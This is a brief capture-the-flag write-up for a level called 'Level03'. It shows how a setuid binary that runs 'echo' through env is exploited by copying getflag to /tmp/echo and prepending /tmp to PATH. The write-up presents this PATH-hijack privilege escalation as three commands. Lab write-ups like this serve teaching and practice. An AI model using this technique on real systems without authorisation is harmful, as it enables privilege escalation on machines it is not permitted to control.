 ## Level03

When we log into the level03 account, we are greeted with a binary named `level03` and setuid to flag03.
Using `ltrace` shows us `system("/usr/bin/env echo Exploit me"Exploit me`, which means we can modify
the env path to replace the `echo` called by the binary to `getflag`:  
```
cp /bin/getflag /tmp/echo
export PATH=/tmp/:$PATH
./level03
```
